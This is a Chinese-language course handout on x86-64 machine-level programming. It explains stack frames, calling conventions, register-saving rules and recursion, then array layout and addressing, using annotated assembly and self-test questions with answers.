| p.35 | amI | … → amI → amI | amI 递归调用自己，新建第二个 amI 帧，与上一个帧互不干扰 |
| p.36 | amI | … → amI → amI → amI | 再次递归，栈达到最深（5 个帧） |
| p.37 | amI | … → amI → amI | 最内层 amI 返回：ret 弹出返回地址，其帧被释放（内存仍在，但不再属于栈） |
| p.38 | amI | yoo → who → amI | 第二层 amI 返回 |
| p.39 | who | yoo → who | 第一层 amI 返回，who 继续执行 |
| p.40 | amI | yoo → who → amI | who 第二次调用 amI，在同一块栈空间上建立新帧，覆盖之前留下的旧数据 |
| p.41 | who | yoo → who | amI 返回 |
| p.42 | yoo | yoo | who 返回，回到 yoo |
栈帧的变化呈现出几条规律：（1）任一时刻，栈中帧的序列就是从最外层到当前函数的调用链，栈顶永远是正在执行的函数的帧；（2）每次 call 增加一个帧，每次 ret 释放一个帧，严格后进先出；（3）递归的每一层都有自己独立的帧，因此每层的局部变量、被保存的寄存器、返回地址互不干扰——这就是“可重入”的机器层面含义；（4）帧的大小由各函数自己决定，同一函数的不同实例帧大小通常相同（不使用变长数组或 alloca 时）。
2（2）基于课件第 44~53 页，逐行解读汇编代码的操作，包括对寄存器和栈的影响等。如果汇编代码和 C 代码不对应的（例如，对 rsp 的加减操作，对 32 位寄存器的操作等），要额外解释原因。
6.6 节已逐行列出了 call_incr 的执行过程，下面重点解释汇编与 C 代码“对不上”的地方：
| 汇编 | 在 C 中找不到对应的原因 |
|---|---|
subq $16, %rsp | C 中没有“分配栈空间”的语句。v1 要被取地址（&v1），必须放在内存中，于是编译器在栈上为它开辟空间。只需要 8 字节，为什么减 16？这并不是为了让 call 时对齐——入口时 %rsp ≡ 8 (mod 16)，减 16 后仍 ≡ 8；gcc 知道同文件中的 incr 不需要对齐才这样分配，若 incr 在别的文件中，gcc 13 会改为 subq $24（见 6.6 节的说明；8(%rsp) 处放 v1，(%rsp) 处 8 字节未使用，课件标为 Unused） |
movq $15213, 8(%rsp) | 对应 long v1 = 15213;，但 v1 没有名字，只有“相对于 %rsp 的偏移 8” |
movl $3000, %esi | 参数 val 是 long（64 位），却用 32 位的 movl：写 %esi 会自动把 %rsi 的高 32 位清零，3000 是正数，结果与 movq $3000, %rsi 相同，但指令短 2 字节（5 字节对 7 字节；课件 p.47 Aside 1 写作 1 字节） |
leaq 8(%rsp), %rdi | 对应 &v1：用 lea 计算地址而不访存，这才是 lea 设计的本意（p.48 Aside 2） |
incr 中 addq %rax, %rsi | C 中 y = x + val 引入了新变量 y，汇编中直接复用了 val 的寄存器 %rsi（val 之后不再使用） |
addq 8(%rsp), %rax | 对应 v1 + v2：v2 在 %rax 中，v1 从栈上重新读取（此时已被 incr 改为 18213）。编译器不能用寄存器中的旧值 15213，因为 incr 通过指针修改了它 |
addq $16, %rsp | C 中没有“释放”的语句，函数结束时由编译器插入，与 subq 配对，使 ret 前 %rsp 回到入口值 |
运行结果是：incr 返回旧值 15213，v1 变为 18213，call_incr 返回 15213 + 18213 = 33426（gcc -O1 直接把整个函数优化成 movl $33426, %eax，印证了这个值）。
2（3）为什么要区分调用者和被调用者保存的寄存器？参照课件第 54 页，再设计几个不同形式的示例。
寄存器是所有过程共享的资源。若没有约定，调用者不知道被调用者会改写哪些寄存器，只能在每次调用前把所有有用的寄存器都存到内存；被调用者也不知道调用者需要哪些，只能把所有要用的寄存器都先保存——两边都做大量无用功。分成两类后，各方只为自己确实需要的寄存器付出代价：被调用者若只用 caller-saved 寄存器（大多数短小的叶子函数如此），完全不需要保存任何东西；调用者若只在调用后用 callee-saved 寄存器保存值，也不需要额外操作。两类寄存器的比例是在“保存次数”之间做的折中。下面三个示例均为 gcc 13 -Og 实测：
示例一：调用后还要用参数 → 放进被调用者保存寄存器
long twice(long x) { return f(x) + x; }
twice:
pushq %rbx # twice 自己作为被调用者，要先保存调用者的 %rbx
movq %rdi, %rbx # x 放到 callee-saved 的 %rbx
call f # f 保证不破坏 %rbx
addq %rbx, %rax
popq %rbx
ret
示例二：叶子函数只用调用者保存寄存器 → 什么都不用保存
long mix(long a, long b, long c) { return (a ^ b) * c; }
mix:
xorq %rsi, %rdi # 只用 %rax、%rdi、%rsi、%rdx，全是 caller-saved
movq %rdi, %rax
imulq %rdx, %rax
ret
示例三：两次调用之间要保留多个值 → 使用多个被调用者保存寄存器
long both(long x, long y) { return f(x) * f(y); }
both:
pushq %rbp
pushq %rbx
subq $8, %rsp # 两次 push + 8 使 call 时 16 字节对齐
movq %rsi, %rbp # y 要在第一次调用后使用
call f # f(x)
movq %rax, %rbx # 第一次的结果要在第二次调用后使用
movq %rbp, %rdi
call f # f(y)
imulq %rbx, %rax
addq $8, %rsp
popq %rbx # 逆序恢复
popq %rbp
ret
2（4）根据课件第 56 和 57 页，讲解 x86-64 运行 Linux 时的寄存器使用规则。
| 寄存器 | 用途 | 保存约定 | 说明 |
|---|---|---|---|
%rax | 返回值 | 调用者保存 | 被调用过程可以随意修改；调用返回后存放结果 |
%rdi %rsi %rdx %rcx %r8 %r9 | 第 1～6 个参数 | 调用者保存 | 被调用过程可以修改；调用者不能指望调用后它们保持不变 |
%r10 %r11 | 临时寄存器 | 调用者保存 | 可被修改（%r10 还用于传递静态链，%r11 常被 PLT 代码使用） |
%rbx %r12 %r13 %r14 %r15 | 临时寄存器 | 被调用者保存 | 被调用者使用前必须保存，返回前恢复 |
%rbp | 帧指针或普通寄存器 | 被调用者保存 | 可以用作帧指针，也可以当普通寄存器用（“mix & match”） |
%rsp | 栈指针 | 特殊的被调用者保存 | 不是“保存再恢复”，而是函数退出时必须回到原值（push/pop、sub/add 配对） |
课件 p.56 把 caller-saved 寄存器分为三组：返回值 %rax、参数 %rdi～%r9、临时 %r10/%r11；p.57 把 callee-saved 分为临时组 %rbx、%r12～%r14（以及 %r15）和特殊组 %rbp、%rsp。一句话：参数寄存器、返回值寄存器以及 %r10、%r11 可以被被调用者随意破坏；其余寄存器被调用者必须原样归还。
2（5）拓展研讨：x86-64 运行 Windows 时的寄存器使用规则是怎样的，对比和 Linux 上规则的差异及优缺点。进一步调研并对比 IA32 上运行 Linux 和 Windows 的寄存器使用规则。
| 调用者保存（易失） | 被调用者保存（非易失） | |
|---|---|---|
| x86-64 Linux（System V） | rax rcx rdx rsi rdi r8–r11；全部 xmm0–xmm15 | rbx rbp r12–r15（+ rsp） |
| x86-64 Windows | rax rcx rdx r8–r11；xmm0–xmm5 | rbx rbp rdi rsi r12–r15（+ rsp）；xmm6–xmm15 |
| IA32（Linux 与 Windows 相同） | eax ecx edx | ebx esi edi ebp（+ esp） |
两套约定的主要差异如下：Windows x64 把 %rsi、%rdi 划为被调用者保存（Linux 中它们是参数寄存器，属于调用者保存），并把 %xmm6～%xmm15 也划为被调用者保存；Linux 的所有 XMM 寄存器都是调用者保存。它们各有优缺点：Linux 有更多寄存器可以被叶子函数随意使用（9 个整数寄存器 + 16 个 XMM），短小函数几乎不需要保存寄存器，传参寄存器也更多；Windows 有更多寄存器能跨调用保留值（8 个整数 + 10 个 XMM），对频繁调用其他函数、又需要保存大量中间值的代码（如浮点密集的循环中调用函数）更有利。两者各有侧重，没有绝对优劣。IA32 时代 Linux 与 Windows 的寄存器保存规则是一致的（都源于早期 C 编译器的惯例），区别主要在于参数传递和栈清理（见 1（6））。
2（6）基于课件第 58~65 页，逐行解读汇编代码的操作，包括对寄存器和栈的影响等。如果汇编代码和 C 代码不对应的，要额外解释原因。
| 课件页 | 指令 | 寄存器与栈的变化（入口 %rsp = A） | 说明 |
|---|---|---|---|
| p.58 | （入口） | x 在 %rdi；M[A] = 返回地址 | 问题：调用 incr 时 %rdi 要传 &v1，x 放到哪里？ |
| p.59 | pushq %rbx | %rsp = A − 8；M[A − 8] = 旧 %rbx | C 中无对应：要使用 callee-saved 的 %rbx，先保存调用者的值 |
| p.60 | subq $16, %rsp | %rsp = A − 24 | 为 v1 分配空间。push 8 + sub 16 + 返回地址 8 = 32，调用时恰好 16 字节对齐 |
| p.61 | movq %rdi, %rbx | %rbx = x | 把 x 转移到被调用者保存寄存器 |
| p.62 | movq $15213, 8(%rsp) | M[A − 16] = 15213 | long v1 = 15213; |
movl $3000, %esi | %rsi = 3000 | 参数 2（32 位写法更短） | |
leaq 8(%rsp), %rdi | %rdi = A − 16 = &v1 | 参数 1 | |
| p.63 | call incr | 返回后 M[A − 16] = 18213，%rax = 15213 = v2 | x 安全地保存在 %rbx 中 |
addq %rbx, %rax | %rax = x + v2 | return x + v2; | |
| p.64 | addq $16, %rsp | %rsp = A − 8 | 释放 v1 的空间（C 中无对应） |
| p.65 | popq %rbx | %rbx = 旧值；%rsp = A | 恢复调用者的 %rbx（C 中无对应） |
ret | 弹出返回地址，%rsp = A + 8 |
与 call_incr 相比，call_incr2 多了 push/pop %rbx 这一对，这是“使用被调用者保存寄存器”的代价：在调用链上，每个函数既是被调用者（要保护调用者的 %rbx）又是调用者（希望 incr 保护自己的 %rbx），两条规则同时作用。
2（7）基于课件第 67 页及后续相关内容，逐行解读汇编代码并和 C 代码对应分析。
| 汇编 | 操作 | 对应 C |
|---|---|---|
movl $0, %eax | 先把返回值设为 0（为 x == 0 的情况准备） | return 0; 的返回值 |
testq %rdi, %rdi | 测试 x 是否为 0 | if (x == 0) |
je .L6 | 若 x == 0，跳到 ret，返回 0 | 终止情况 |
pushq %rbx | 保存调用者（可能是上一层 pcount_r）的 %rbx | （无直接对应） |
movq %rdi, %rbx | %rbx = x | |
andl $1, %ebx | %rbx = x & 1（写 32 位寄存器清零高位） | (x & 1) |
shrq %rdi | %rdi = x >> 1（逻辑右移 1 位），作为递归参数 | x >> 1 |
call pcount_r | 递归调用，结果在 %rax | pcount_r(x >> 1) |
addq %rbx, %rax | %rax = (x & 1) + 递归结果；%rbx 由于是 callee-saved，递归调用后仍是本层的 x & 1 | + |
popq %rbx | 恢复调用者的 %rbx | |
.L6: rep; ret | 返回 %rax | return …; |
这里有两个细节：（1）je .L6 跳过了 push 和 pop，二者必须成对出现在同一条路径上，否则栈会错位；（2）每层递归用的都是同一个物理寄存器 %rbx，但因为每层在改写它之前都把上一层的值压栈，返回前又恢复，所以每层看到的 %rbx 都是“自己的”。以 x = 13 为例的完整栈图见图 7。
2（8）有哪些方面的支持（硬件上、软件上），就可以支持递归？为什么还有一些编程语言不支持递归？
| 层面 | 需要的支持 |
|---|---|
| 硬件 | ① 能把返回地址保存到内存并按后进先出取回的调用/返回机制（x86 的 call/ret，或 ARM 的 bl 把返回地址放入链接寄存器、再由软件存入栈）；② 一个可作为栈指针的寄存器，以及“基址 + 偏移”的寻址方式，便于访问栈帧中的数据；③ 足够大的可读写内存 |
| 软件 | ① 运行时栈：每次调用动态分配一个栈帧，存放该实例的参数、局部变量、返回地址；② 调用约定：规定寄存器保存规则，使一次调用不破坏另一次调用的数据；③ 代码可重入：局部变量不能放在固定的静态地址（否则递归的内外层会共享同一个变量）；④ 操作系统为每个线程分配足够的栈空间 |
也有一些语言不支持或限制递归，原因各不相同：
例如，早期 FORTRAN（FORTRAN 77 及以前）和早期 COBOL 没有栈：当时的机器（如 IBM 704）没有栈，返回地址由调用指令放进寄存器，再存到被调用子程序的一个固定位置；编译器为每个子程序的局部变量分配静态地址，速度快、内存用量在编译时就能确定。递归会让内外层共享同一组变量而出错，所以语言干脆不允许。Fortran 90 起才加入 RECURSIVE 关键字。
GPU 着色语言（GLSL、HLSL）和 OpenCL C 则不同：成千上万个线程同时运行，每个线程的寄存器和栈空间都很小且要在编译时确定，递归深度无法静态预知，所以禁止递归。
安全关键的嵌入式系统又是另一种情况：如汽车软件的 MISRA C 规范禁止递归，因为必须在编译时证明栈不会溢出；递归使最坏情况的栈用量难以分析。
一般而言，不支持递归的理由是：静态分配更快、更可预测，内存需求可以在编译时确定；代价是失去了递归的表达能力（任何递归都可以改写为显式栈的循环）。
⚠ 本讲无作业题
按《第 6 讲研讨题和作业题》的说明，本讲作业题并入第 7 讲（3.66、3.67、3.68），见第 7 讲讲义。
第三部分 复习速查#
3.1 指令与约定一页纸#
| 项目 | 内容 |
|---|---|
pushq S | %rsp −= 8；M[%rsp] = S |
popq D | D = M[%rsp]；%rsp += 8（内存不清零） |
call L | 压入下一条指令地址；%rip = L |
ret | %rip = 弹出的地址 |
| 参数 | %rdi %rsi %rdx %rcx %r8 %r9，其余在栈上（参数 7 在 8(%rsp)，入口处） |
| 返回值 | %rax |
| 调用者保存 | %rax、%rdi %rsi %rdx %rcx %r8 %r9、%r10 %r11 |
| 被调用者保存 | %rbx %rbp %r12 %r13 %r14 %r15；%rsp 必须恢复 |
| 对齐 | call 执行时 %rsp 是 16 的倍数（入口处 %rsp ≡ 8 mod 16） |
| 红区 | %rsp 以下 128 字节，叶子函数可直接使用 |
| 局部变量必须进栈的情况 | 寄存器不够；要取地址 &；是数组或结构体 |
3.2 易错点清单#
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | 栈向高地址增长，push 使 %rsp 增加 | 栈向低地址增长，push 使 %rsp 减 8 |
| 2 | pop 会清除栈上的数据 | 只修改 %rsp，数据仍在原处 |
| 3 | 返回地址是 call 指令的地址 | 是 call 之后那条指令的地址 |
| 4 | call 会自动保存寄存器和传参 | call 只压返回地址并跳转，其余靠约定 |
| 5 | ret 弹出的是 %rax | ret 弹出返回地址到 %rip，返回值本来就在 %rax |
| 6 | 参数 7 在 (%rsp) | 被调用者入口处 (%rsp) 是返回地址，参数 7 在 8(%rsp) |
| 7 | 调用后 %rdi 中的参数还在 | %rdi 是调用者保存寄存器，可能已被改写 |
| 8 | 被调用者保存 = 由调用者负责保存 | 相反：由被调用者负责保存和恢复 |
| 9 | 每层递归有自己的 %rbx | 只有一个 %rbx，靠每层压栈保存、出栈恢复 |
| 10 | 局部变量都在栈上 | 多数在寄存器中，只有必要时才放栈上 |
| 11 | subq $16,%rsp 只是因为需要 16 字节 | 往往还为了满足 16 字节对齐 |
3.3 中英术语对照#
| English | 中文 | English | 中文 |
|---|---|---|---|
| procedure | 过程 | caller / callee | 调用者 / 被调用者 |
| stack / stack pointer | 栈 / 栈指针 | stack frame | 栈帧 |
| frame pointer | 帧指针 | return address | 返回地址 |
| passing control | 传递控制 | passing data | 传递数据 |
| calling convention | 调用约定 | ABI | 应用程序二进制接口 |
| caller-saved | 调用者保存 | callee-saved | 被调用者保存 |
| reentrant | 可重入 | recursion | 递归 |
| mutual recursion | 相互递归 | leaf function | 叶子函数 |
| red zone | 红区 | shadow space | 影子空间 |
| stack protector / canary | 栈保护 / 金丝雀值 | argument build area | 参数构造区 |
第四部分 自测题#
以下题目为新编。默认 x86-64 Linux。
初始 %rsp = 0x7fe0，依次执行 pushq $1; pushq $2; popq %rax; pushq $3 后，%rsp 和 %rax 是多少？0x7fd0 处存放什么？
指令 call func 位于地址 0x401020，长 5 字节。执行前 %rsp = 0x7ff8。执行后 %rsp、%rip 和栈顶的内容分别是什么？
函数 long f(long a, long b, long c, long d, long e, long g, long h) 的参数 h 在哪里？在 f 的入口处如何访问它？
函数 g 需要在调用 h() 之后继续使用参数 x，它把 x 保存在 %rcx 中可以吗？保存在 %r12 中呢？保存在 %r12 需要做什么？
下面的函数为什么需要在栈上分配空间？long k(void) { long a = 1; set(&a); return a; }
一个函数入口处 %rsp = 0x7fffffffe008，它要调用另一个函数，并需要保存 %rbx 和 %r12，至少还要把 %rsp 减多少才能满足调用时的对齐？
递归函数 long fact(long n) { return n <= 1 ? 1 : n * fact(n - 1); } 计算 fact(4) 时，栈上最多同时有几个返回地址（不含 main 调用 fact 的那个）？
为什么 x86-64 Linux 的叶子函数可以不移动 %rsp 就使用 -8(%rsp) 这样的地址？
自测题答案#
push 1：%rsp = 0x7fd8；push 2：0x7fd0；pop：%rax = 2，%rsp = 0x7fd8；push 3：%rsp = 0x7fd0，%rax = 2，0x7fd0 处为 3（覆盖了原来的 2）。
返回地址 0x401025 被压栈：%rsp = 0x7ff0，M[0x7ff0] = 0x401025，%rip = func 的地址。
h 是第 7 个参数，在栈上；入口处 (%rsp) 是返回地址，h 在 8(%rsp)。
%rcx 是调用者保存寄存器，h() 可能改写它，不可以；%r12 是被调用者保存寄存器，可以，但 g 自己必须在使用 %r12 前 pushq %r12，返回前 popq %r12。
a 被取地址传给 set，寄存器没有地址，必须放在内存（栈）中。
入口 %rsp ≡ 8 (mod 16)；push 两个寄存器后 ≡ 8 (mod 16)，所以还要减 8（或 24、40 ……），使 call 时 %rsp 是 16 的倍数。
fact(4) → fact(3) → fact(2) → fact(1)：fact(1) 运行时，栈上有 fact(4)→fact(3)、fact(3)→fact(2)、fact(2)→fact(1) 三次调用压入的返回地址，共 3 个（fact(1) 不再递归）。
System V ABI 规定 %rsp 以下 128 字节为红区，不会被信号处理等异步操作破坏；叶子函数不再 call，也不会有人往那里压返回地址，所以可以直接使用。
—— 第 6 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 7 讲
程序的机器级表示 IV：数据（Machine-Level Programming IV: Data）
如何使用本讲义#
本讲回答一个问题：C 语言里的数组、结构体和浮点数，到了机器层面变成了什么？答案出奇地简单——机器代码中根本没有“数组”和“结构体”，只有一段段连续的字节和编译器算好的偏移量。数组靠“起始地址 + 下标 × 元素大小”定位元素，结构体靠“起始地址 + 编译时确定的字段偏移”定位字段，对齐规则决定了偏移量中要插入多少填充；浮点数则走另一套寄存器（XMM）和另一套指令。讲义中的内存图统一按“低地址在左、高地址在右”绘制，刻度为相对起始地址的字节偏移；斜线阴影表示对齐填充。
表 1 第 7 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 一维数组（p.3–9） | 数组怎样分配；A[i] 的地址怎么算；数组名与指针 | 7.1 |
| 嵌套数组（p.10–15） | 二维数组的行优先存储；A[i]、A[i][j] 的地址公式 | 7.2 |
| 多级数组（p.16–18） | 指针数组与二维数组的区别：两次访存 | 7.3 |
| N×N 矩阵（p.19–21） | 固定维数、显式下标、变长数组三种写法 | 7.4 |
| 综合示例（p.22–23） | 用一维指针遍历二维数组 | 7.5 |
| 结构体（p.25–27） | 字段偏移、取字段地址、遍历链表 | 7.6 |
| 对齐（p.28–35） | 对齐原则、内部/外部填充、结构体数组、节省空间 | 7.7 |
| 浮点（p.37–42） | XMM 寄存器、标量与 SIMD 指令、浮点调用约定、比较 | 7.8 |
| 附加页（p.45–51） | 复杂声明的 sizeof 与可能的坏引用 | 7.9 |
第一部分 第 7 讲知识点：数据#
7.1 一维数组：分配与访问（课件 p.3–9）#
声明 T A[L]; 定义了一个元素类型为 T、长度为 L 的数组。它在内存中占据一段连续的区域，大小为 字节，元素 A[0]、A[1]、…… 依次排列。课件 p.3 的四个例子如图 1：char 数组每个元素 1 字节；int 数组每个元素 4 字节；double 数组和指针数组每个元素 8 字节——注意 char *p[3] 中存放的是 3 个指针，它们指向的字符串并不在这个数组里。

图 1 课件 p.3 的四个数组在内存中的布局（x 为起始地址）
数组名 A 在表达式中可以当作指向第 0 个元素的指针，类型是 T *，值是数组的起始地址。于是 A + i 是第 i 个元素的地址，而 C 的指针运算会自动按元素大小缩放：A + i 的数值是 ，而不是 。A[i] 与 *(A + i) 完全等价。课件 p.4–6 用 int val[5] = {1, 5, 2, 1, 3}（起始地址 x）做了练习，答案如下：
表 2 课件 p.6：数组引用的类型与值
| 表达式 | 类型 | 值 | 说明 |
|---|---|---|---|
val[4] | int | 3 | 第 4 个元素 |
val | int * | x | 数组名当作指针使用 |
val+1 | int * | x + 4 | 指针加 1 前进一个 int |
&val[2] | int * | x + 8 | 取第 2 个元素的地址 |
val[5] | int | ?? | 越界：C 不检查边界，读到的是数组之后的内存 |
*(val+1) | int | 5 | 等价于 val[1] |
val + i | int * | x + 4i | 等价于 &val[i] |
课件 p.7 用 typedef int zip_dig[5]; 定义了邮政编码类型，声明 zip_dig cmu; 等价于 int cmu[5];。例子中 cmu、mit、ucb 恰好分配在连续的 20 字节块中（地址 16、36、56），但课件特意说明这一般不能保证——编译器和链接器可以按任意顺序、带任意间隔放置不同的全局变量。
访问数组元素时，起始地址放在一个寄存器里，下标放在另一个寄存器里，正好用上第 4 讲的比例变址寻址 (Rb,Ri,S)，比例因子 S 就是元素大小（1、2、4、8）。课件 p.8 的 get_digit 和 gcc 13 的实测结果如下：
int get_digit(zip_dig z, int digit)
{
return z[digit];
}
# 课件 p.8（%rdi = z, %rsi = digit） # gcc 13 -Og 实测
movl (%rdi,%rsi,4), %eax movslq %esi, %rsi
movl (%rdi,%rsi,4), %eax
ret实测多了一条 movslq %esi,%rsi：digit 是 32 位的 int，而地址计算需要 64 位的下标，所以先把它符号扩展成 64 位（负下标也要算对）。课件省略了这一步，若把 digit 声明为 size_t 或 long 就没有这条指令。另外课件 p.8 左边标了“IA32”，但代码用的是 %rdi、%rsi，实际是 x86-64 代码，这是课件沿用旧版时留下的标签。
void zincr(zip_dig z) {
size_t i;
for (i = 0; i < ZLEN; i++)
z[i]++;
}
# 课件 p.9（%rdi = z） # gcc 13 -Og 实测
movl $0, %eax # i = 0 movl $0, %eax
jmp .L3 # goto middle jmp .L3
.L4: # loop: .L4:
addl $1, (%rdi,%rax,4) # z[i]++ leaq (%rdi,%rax,4), %rcx
addq $1, %rax # i++ movl (%rcx), %esi
.L3: # middle leal 1(%rsi), %edx
cmpq $4, %rax # i:4 movl %edx, (%rcx)
jbe .L4 # if <=, loop addq $1, %rax
rep; ret .L3:
cmpq $4, %rax
jbe .L4
ret课件 p.9 的循环是第 5 讲讲过的“跳转到中间”形式：i 在 %rax 中，i < 5 被改写成无符号比较 i <= 4（cmpq $4,%rax; jbe，因为 i 是 size_t）。addl $1,(%rdi,%rax,4) 一条指令完成“读—加 1—写回” z[i]。gcc 13 在 -Og 下把这一步拆成了先算地址、读、加、写四条指令，语义相同；换成 -O1 则会进一步变成指针遍历：leaq 20(%rdi),%rax 算出数组末尾地址，循环体为 addl $1,(%rdi); addq $4,%rdi; cmpq %rax,%rdi; jne，下标 i 完全消失了。
★ 要点
T A[L] 占 字节连续内存；A[i] 的地址为 。
数组名在表达式中当作 T * 使用；指针加减整数自动乘以元素大小；A[i] ≡ *(A+i)。
C 不做边界检查，越界访问读写的是相邻内存（第 8 讲缓冲区溢出的根源）。
机器代码用 (Rb,Ri,S) 寻址访问元素，S = 元素大小；int 下标先 movslq 扩展为 64 位。
常见问题：val 与 &val 打印出来是同一个地址，二者有什么区别？
对于 int val[5]，val 与 &val 的数值相同，但类型不同：val 在表达式中退化为 int *，指向第 0 个元素；&val 的类型是 int (*)[5]，指向整个数组。指针运算按“所指类型的大小”缩放，所以 val + 1 前进 4 字节，&val + 1 前进 20 字节，跳过了整个数组，实测两者相对 val 的偏移分别是 4 和 20。sizeof 同样只看类型：sizeof val = 20（sizeof 的操作数不发生数组到指针的退化），sizeof &val = 8（它是指针），sizeof *&val = 20。
二维数组上这一规律更明显。对于 int pgh[4][5]，pgh[0] + 1、pgh + 1、&pgh + 1 分别前进 4、20、80 字节（实测），依次对应“一个 int”“一行（int[5]）”“整个数组（int[4][5]）”。遇到这类表达式时，先写出它的类型，再按“地址 + n × sizeof(所指类型)”计算，7.9 节表 7 的 sizeof 题用的也是这个方法。
7.2 嵌套数组（多维数组）（课件 p.10–15）#
声明 T A[R][C]; 定义了 R 行 C 列的二维数组，每个元素占 K 字节，总大小为 字节。C 语言采用行优先（row-major）顺序存放：先放第 0 行的全部 C 个元素，再放第 1 行，依此类推。换个角度理解：T A[R][C] 就是“由 R 个元素组成的数组，每个元素又是一个 T[C] 数组”，所以“数组的元素连续存放”这条规则递归地应用，自然得到行优先。
由此可以写出两个地址公式。第 i 行 A[i] 本身是一个含 C 个元素的数组，它的起始地址为
元素 A[i][j] 在第 i 行中再偏移 j 个元素，地址为
注意公式中只出现列数 C，不出现行数 R：编译器计算地址时只需要知道每行多长。这也解释了为什么 C 函数的二维数组形参可以省略第一维（int a[][5]），但不能省略第二维。2025 年课件的讲稿还提到可以用三维数组 a[2][3][2] 理解行优先：按地址从低到高枚举元素时，下标像里程表一样从最右边开始进位——a[0][0][0]、a[0][0][1]、a[0][1][0]、a[0][1][1]、……，对应的地址为 。
课件 p.11 的例子 zip_dig pgh[4] 等价于 int pgh[4][5]，即 4 个邮政编码，每个 5 个 int，共 80 字节，从地址 76 开始存放（图 2）。

图 2 课件 p.11：pgh[4][5] 按行优先连续存放（每行 20 字节）
先看如何取一整行（课件 p.13）。pgh[index] 是一个含 5 个 int 的数组，在表达式中退化为指向该行首元素的指针，值为 。编译器没有用乘法指令，而是用两条 lea 凑出 20：先算 ，再以比例因子 4 加到 pgh 上。
int *get_pgh_zip(int index) { return pgh[index]; }
# 课件 p.13（%rdi = index） # gcc 13 实测（多一条 movslq）
leaq (%rdi,%rdi,4), %rax # 5*index movslq %edi, %rdi
leaq pgh(,%rax,4), %rax # pgh + 20*index leaq (%rdi,%rdi,4), %rax
leaq pgh(,%rax,4), %rax
ret再看如何取单个元素（课件 p.15）。地址为 。代码先用 lea 算出 ，加上 dig，最后以比例因子 4 一次访存。
int get_pgh_digit(int index, int dig) { return pgh[index][dig]; }
# 课件 p.15 # gcc 13 -Og 实测
leaq (%rdi,%rdi,4), %rax # 5*index movslq %esi, %rsi
addl %rax, %rsi # 5*index+dig movslq %edi, %rdi
movl pgh(,%rsi,4), %eax # M[pgh+4*(...)] leaq (%rdi,%rdi,4), %rax
addq %rsi, %rax
movl pgh(,%rax,4), %eax
ret⚠ 课件 p.15 的 addl 有误
addl %rax, %rsi 的后缀 l 表示 32 位操作，却使用了 64 位寄存器，这条指令无法汇编（汇编器会报 “incorrect register” 错误）。正确的写法是 addq %rax,%rsi。实测中 gcc 先把两个 int 参数都用 movslq 扩展到 64 位，再用 addq 相加，结果放在 %rax 中。这类笔误考试时可能以“找错”题的形式出现，看到后缀与寄存器宽度不符就要警觉。
7.3 多级数组（课件 p.16–18）#
另一种组织“二维”数据的方式是指针数组：int *univ[3] = {mit, cmu, ucb};。univ 是含 3 个元素的数组，每个元素是 8 字节的指针，分别指向一个 5 元素的 int 数组（图 3）。这三个行数组各自独立分配，地址不必相邻，长度也可以不同。

图 3 课件 p.16：多级数组 univ（160 处的 36 表示指针值为 36，即 mit 的地址）
访问 univ[index][digit] 需要两次访存：先从 处读出行指针，再从“行指针 + 4·digit”处读出元素，即 。
int get_univ_digit(size_t index, size_t digit) { return univ[index][digit]; }
# 课件 p.17
salq $2, %rsi # 4*digit
addq univ(,%rdi,8), %rsi # p = univ[index] + 4*digit
movl (%rsi), %eax # return *p
ret
# gcc 13 -Og 实测
movq univ(,%rdi,8), %rax # 第 1 次访存：行指针
movl (%rax,%rsi,4), %eax # 第 2 次访存：元素
ret两种写法的第一次访存方式不同：课件版本用 addq univ(,%rdi,8),%rsi 让读内存和加法合并在一条指令里，gcc 13 则先把行指针读入 %rax，再借助比例变址寻址完成第二次访存。两者都是两次内存读取，本质相同。课件 p.18 总结了嵌套数组与多级数组的对比：在 C 代码中写法完全一样，但机器级的地址计算截然不同。
表 3 嵌套数组与多级数组（课件 p.18）
